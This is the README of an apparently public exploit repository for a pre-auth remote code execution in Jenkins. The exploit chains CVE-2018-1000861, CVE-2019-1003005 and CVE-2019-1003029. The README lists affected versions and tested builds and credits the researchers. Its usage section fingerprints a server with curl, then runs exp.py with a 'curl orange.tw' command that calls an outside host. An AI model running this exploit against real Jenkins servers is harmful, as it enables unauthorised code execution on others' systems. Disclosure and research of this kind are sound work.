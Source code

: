 # awesome-jenkins-rce-2019

There is no pre-auth RCE in Jenkins since May 2017, but this is the one!

It chains CVE-2018-1000861, CVE-2019-1003005 and CVE-2019-1003029 to a more reliable and elegant pre-auth remote code execution!


# Affect list

* ANONYMOUS_READ disable
    - Jenkins version < 2.138

* ANONYMOUS_READ enable(or with a normal user account)
    - Jenkins build time < 2019-01-28



# Usage

```bash
$ curl -s -I http://jenkins/| grep X-Jenkins
X-Jenkins: 2.137
X-Jenkins-Session: 20f72c2e
X-Jenkins-CLI-Port: 50000
X-Jenkins-CLI2-Port: 50000

$ python exp.py http://jenkins/ 'curl orange.tw'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```


# Tested on

* Jenkins 2.53
* Jenkins 2.122
* Jenkins 2.137
* Jenkins 2.138 with ANONYMOUS_READ enable
* Jenkins 2.152 with ANONYMOUS_READ enable
* Jenkins 2.153 with ANONYMOUS_READ enable
* Script Security Plugin 1.43
* Script Security Plugin 1.48


# Acknoledgements

* [@orange_8361](https://twitter.com/orange_8361) for CVE-2018-1000861
* [@0ang3el](https://twitter.com/0ang3el) for CVE-2019-1003005
* [@webpentest](https://twitter.com/webpentest) for CVE-2019-1003029


Part slides from my HITB AMS 2019 talk:

![1.png](img/1.png)
![2.png](img/2.png)
![3.png](img/3.png)



# References

* [Hacking Jenkins Part 1 - Play with Dynamic Routing](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html)
* [Hacking Jenkins Part 2 - Abusing Meta Programming for Unauthenticated RCE!](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html)
* [Jenkins Security Advisory 2018-12-05](https://jenkins.io/security/advisory/2019-12-05/)
* [Jenkins Security Advisory 2019-01-28](https://jenkins.io/security/advisory/2019-01-28/)
* [Jenkins Security Advisory 2019-03-06](https://jenkins.io/security/advisory/2019-03-06/)
